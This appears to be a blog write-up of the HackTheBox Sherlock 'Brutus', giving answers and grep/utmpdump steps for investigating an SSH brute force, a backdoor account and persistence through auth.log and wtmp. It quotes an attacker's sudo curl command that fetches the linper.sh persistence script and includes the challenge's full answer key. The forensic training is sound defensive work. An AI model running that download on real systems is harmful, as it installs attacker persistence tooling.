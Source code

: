 ```yaml
---
title: "Sherlock - Brutus - English"
summary: "Sherlock from HackTheBox about unauthorized login attempts on a Confluence server. The auth.log and wtmp files are provided for investigation."
date: "Jan 15 2025"
draft: false
tags:
- HackTheBox
- Sherlock
- Very easy
- Tutorial
- English
---
```




<SherlockBeginningTable  lang={LANG_EN} 
  data={[
    { content: `In this very easy Sherlock, you will familiarize yourself with Unix auth.log and wtmp logs.
    We'll explore a scenario where a Confluence server was brute-forced via its SSH service. 
    After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. 
    Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, 
    including aspects of privilege escalation, persistence, and even some visibility into command execution.` },
    { content: "auth.log, wtmp" },
  ]} />

<div align="center">
  <img width="500px" src="/blog/sherlocks/brutus_images/Sherlock_logo.png" />
</div> 

## Tasks

---

<SherlockTask lang={LANG_EN} 
    task_number="1" 
    task_content="Analyzing the auth.log, can you identify the IP address used by the attacker to carry out a brute force attack?" 
    hint_content="Searching for keywords associated with brute force attempts may help in identifying potential attacks." 
    answer="65.2.161.68"/>

- We can search for the keywords `Invalid user` to find out the attacker's IP with any of these commands:

<CodeBlock code={"grep \"Invalid user\" auth.log"}/>

<CodeBlock code={"cat auth.log | grep \"Invalid user\""}/>

- The logs have this format:

<CodeBlock code={"Mar  6 06:31:31 ip-172-31-35-28 sshd[2325]: Invalid user admin from 65.2.161.68 port 46380"}/>

- There are many failed login attempts from the IP 65.2.161.68 with user accounts suggesting elevated privileges (`admin`, `server_adm`, `svc_account` and `root`). That's the IP we are looking for.

---

<SherlockTask lang={LANG_EN} 
    task_number="2" 
    task_content="The brute force attempts were successful, and the attacker gained access to an account on the server. What is the username of this account?" 
    hint_content="Look for keywords indicating successful login attempts to identify the compromised account." 
    answer="root"/>

- Taking a look to the `auth.log` file, we can see that access was gained with the user `root` from the IP 65.2.161.68, which is the attacker's IP as mentioned earlier.

<CodeBlock code={"Mar 6 06:31:40 ip-172-31-35-28 sshd[2411]: Accepted password for root from 65.2.161.68 port 34782 ssh2"}/>

- We can filter with the keywords `Accepted password`, though:

<CodeBlock code={"cat auth.log | grep \"Accepted password\""}/>


---

<SherlockTask lang={LANG_EN} 
    task_number="3" 
    task_content="Can you identify the timestamp when the attacker manually logged in to the server to carry out their objectives?" 
    hint_content="It's important to note that the first successful login by the attacker was the result of an automated brute force attempt, and the session was 
    closed within the same second it was established. After obtaining the working credentials, the attacker manually logged in, and we need to identify that login. 
    Use the wtmp artifact to view the login time of the working session and correlate that with auth.log." 
    answer="2024-03-06 06:32:45"/>

- Since in `auth.log` the timestamp has this format `Month Day HH:mm:SS` and the requested format is `YYYY-MM-DD HH:mm:SS`, we need to search in the `wtmp` file.
- With this command, we can see all logins in that file:

<CodeBlock code={"utmpdump wtmp"}/>
    
- But we can filter by the username with which the attacker gained access, which in this case is what we are interested in:

<CodeBlock code={"utmpdump wtmp | grep 'root'"}/>

<SherlockBodyImage src="/blog/sherlocks/brutus_images/Brutus_task_3.png"/>

- We can see that in the last line, the login from the IP 65.2.161.68 has a similar timestamp format to `YYYY-MM-DD HH:mm:SS`. There is our answer.

---

<SherlockTask lang={LANG_EN} 
    task_number="4" 
    task_content="SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?" 
    hint_content="A session number is assigned immediately after the password is accepted." 
    answer="37"/>

- Considering the previous timestamp, we can search in `auth.log` around that time.
- We search for that hour and those minutes (we could also search for the user `root`, though):

<CodeBlock code={"cat auth.log | grep '06:32'"}/>

<SherlockBodyImage src="/blog/sherlocks/brutus_images/Brutus_task_4.png"/>

- We see that one second before (06:32:44), the number 37 is assigned to the `root` user's session.

---

<SherlockTask lang={LANG_EN} 
    task_number="5" 
    task_content="The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?" 
    hint_content="Auth.log also tracks changes related to users and groups on the server. Look for keywords indicating user additions or privilege assignments." 
    answer="cyberjunkie"/>

- Reviewing the `auth.log` file, we realize that after gaining access, the attacker creates a new user with the name `cyberjunkie`, through `useradd` command, in order to maintain persistent access to the system (creating a backdoor):
    
<CodeBlock code={"Mar  6 06:34:18 ip-172-31-35-28 useradd[2592]: new user: name=cyberjunkie, UID=1002, GID=1002, home=/home/cyberjunkie, shell=/bin/bash, from=/dev/pts/1"}/>
     
---

<SherlockTask lang={LANG_EN} 
    task_number="6" 
    task_content="What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?" 
    hint_content="If you have found the answer to Question 5, consult the MITRE ATT&CK enterprise matrix to determine the sub-technique ID under the persistence tactic." 
    answer="T1136.001"/>

- To do this, we go to the URL https://attack.mitre.org and search in **Persistence > Create Account > Local Account**.

---

<SherlockTask lang={LANG_EN} 
    task_number="7" 
    task_content="What time did the attacker's first SSH session end according to auth.log?"
    answer="2024-03-06 06:37:24"/>

- Knowing the SSH session number, we can filter by it as follows:
    
<CodeBlock code={"cat auth.log | grep 'session 37'"}/>
    
<SherlockBodyImage src="/blog/sherlocks/brutus_images/Brutus_task_7.png"/>

- The second line indicates the time when the session was closed, with the state `Removed session 37`.

---

<SherlockTask lang={LANG_EN} 
    task_number="8" 
    task_content="The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?" 
    hint_content="Although auth.log is not typically used to track command executions like auditd, commands executed with sudo are logged in auth.log since the system needs to authenticate the account's privileges to grant root level permissions for that command. Search for the keyword 'COMMAND' to find commands executed using sudo."
    answer="/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh"/>

- The system needs to authenticate the account to grant administrative permissions for commands executed with `sudo`, which would be recorded in `auth.log`, as the hint states. We can filter by:
    
<CodeBlock code={"cat auth.log | grep \"COMMAND\""}/>
 
<SherlockBodyImage src="/blog/sherlocks/brutus_images/Brutus_task_8.png"/>   

- One of the lines shows us the `curl` command that the attacker executed and the script URL that he downloaded.

---

<SherlockFinalContent lang={LANG_EN}/>
